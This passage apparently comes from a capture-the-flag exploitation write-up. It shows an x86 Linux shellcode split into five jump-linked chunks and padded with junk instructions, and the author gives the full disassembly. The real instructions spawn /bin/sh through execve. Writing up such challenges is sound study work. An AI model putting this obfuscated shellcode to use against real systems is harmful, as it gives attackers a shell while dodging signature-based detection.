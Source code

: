 I divided the shellcode in five chunks, connected by jump instructions.
The result is stored in the *vault_binsh.bf* file.

Of course, the instructions of the shellcode are interleaved with other
junk instructions. The final shellcode, thus looks like this:

```
Chunk 1:
 0x804b161:  mov    esi, 0xa8a01963
 0x804b166:  pop    esi
 0x804b167:  inc    ecx
 0x804b168:  inc    esi
 0x804b169:  nop
 0x804b16a:  test   al, 0x34
 0x804b16c:  rol    edx, 0x1
 0x804b16f:  xor    eax, eax
 0x804b171:  push   0x62c04bac
 0x804b176:  je     0x804b1c5

Chunk 2:
 0x804b1c5:  push   eax
 0x804b1c6:  xchg   ecx, eax
 0x804b1c7:  push   0x68732f2f
 0x804b1cc:  and    ah, dh
 0x804b1ce:  inc    eax
 0x804b1cf:  je     0x804b1bf   % not taken
 0x804b1d1:  xor    eax, eax
 0x804b1d3:  mov    cl, 0xd6
 0x804b1d5:  dec    esi
 0x804b1d6:  sub    ch, dl
 0x804b1d8:  push   0x6e69622f
 0x804b1dd:  or     al, 0x0
 0x804b1df:  nop
 0x804b1e0:  jmp    0x804b25d 

Chunk 3:
 0x804b25d:  mov    ebx, esp
 0x804b25f:  inc    edx
 0x804b260:  inc    edx
 0x804b261:  inc    edx
 0x804b262:  push   eax
 0x804b263:  test   al, 0x96
 0x804b265:  push   ebx
 0x804b266:  jge    0x804b2b6

Chunk 4:
 0x804b2b6:  mov    ecx, esp
 0x804b2b8:  shl    dh, cl
 0x804b2ba:  nop
 0x804b2bb:  and    eax, 0xc0e2e8bc
 0x804b2c0:  jne    0x804b30a         % not taken
 0x804b2c2:  mov    al, 0xb
 0x804b2c4:  nop
 0x804b2c5:  jmp    0x804b26e 

Chunk 5:
 0x804b26e:  xor    edx, edx
 0x804b270:  int    0x80
```
